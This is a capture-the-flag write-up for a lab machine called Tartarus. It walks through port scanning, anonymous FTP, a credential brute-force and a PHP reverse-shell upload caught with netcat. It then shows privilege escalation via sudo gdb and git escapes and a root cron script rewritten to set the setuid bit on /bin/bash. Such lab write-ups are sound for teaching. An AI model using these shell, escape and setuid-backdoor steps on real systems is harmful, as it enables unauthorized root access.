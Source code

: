# Tartarus

_25th August 2020_

## Nmap scan

The initial scan reports the following.

```
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### Analysis

Since HTTP is running on port 80, we can proceed to view the web page on `http://<IP>/`
The site is the default Apache page. However, robots.txt on the server shows us this.

```
User-Agent: *
Disallow : /admin-dir

I told d4rckh we should hide our things deep.
```

`http://<IP>/admin-dir/` shows us two files with some usernames and credentials.

## FTP

Since FTP is open, we can try to access it using `ftp <IP>` (Anonymous access is enabled).

### Analysis

FTP file listing shows us the following.

```
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 .
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ..
drwxr-xr-x    3 ftp      ftp          4096 Jul 05 21:31 ...
-rw-r--r--    1 ftp      ftp            17 Jul 05 21:45 test.txt
```

We see an interesting directory `...`. On moving to that directory and listing the files, we see another directory called `...` again. On repeating the process, we find a text file called `yougotgoodeyes.txt`. Upon downloading we find an HTTP endpoint. We can now navigate to `http://<IP>/sUp3r-s3cr3t` from the browser.

## Brute-forcing credentials

We can use the previously obtained usernames and passwords as the wordlist to bruteforce the login page. We find the credentials as `enox: P@ssword1234`.

### Analysis

Upon login, a php file upload page is found. We can try to upload a php reverse shell from [pentestmonkey].
Upon further analysis using gobuster, we find the reverse shell at the subdirectory `/images/uploads` and we can click on it while listening on our local machine using `nc -l <IP>`. As expected, we get a shell. After some poking around, we can find the user flag in `/home/d4rckh/user.txt`. On checking for rights using `sudo -l`, we find that our current user (www-data) has access to run `/var/www/gdb` as the user (thirtytwo).

## Privilege Escalation

We can escalate ourselves to \* using the following from gtfobins.

```
sudo -u thirtytwo /var/www/gdb -nx -ex '!sh' -ex quit
```

### Analysis

The user is now (thirytwo) and we can find a file in `/home/thirtytwo` which contains the following.

```
Hey 32, the other day you were unable to clone my github repository.
Now you can use git. Took a while to fix it but now its good :)

~D4rckh
```

On checking for rights using `sudo -l`, we find that our current user (thirtytwo) has access to run `/usr/bin/git` as the user (d4rckh).

## Privilege Escalation to (d4rckh)

We can escalate ourselves to the user (d4rckh) using the following from gtfobins.

```
sudo -u d4rckh /usr/bin/git help config
```

### Analysis

Running the command `!bash`, we get a shell as the user (d4rckh). We see a file in `/home/d4rckh/` called `cleanup.py`. Checking the crontab shows that this script is scheduled to run every two minutes as the (root) user.

## Privilege Escalation to (root)

We can change `cleanup.py` to mark `/bin/bash` as a setuid binary. Since `/bin/bash` is owned by root, it will grant us access to run `/bin/bash` as a non root user on setting the uid. `cleanup.py` runs automatically and it's new contents are as follows.

```python
#!/usr/bin/env/ python
import os
import sys

try:
    os.system('chmod +s /bin/bash')
except:
    sys.exit()
```

### Analysis

After `cleanup.py` runs, we can run `/bin/bash -p` and get a shell as the (root) user. The root flag can now be read from `/home/root.txt`.

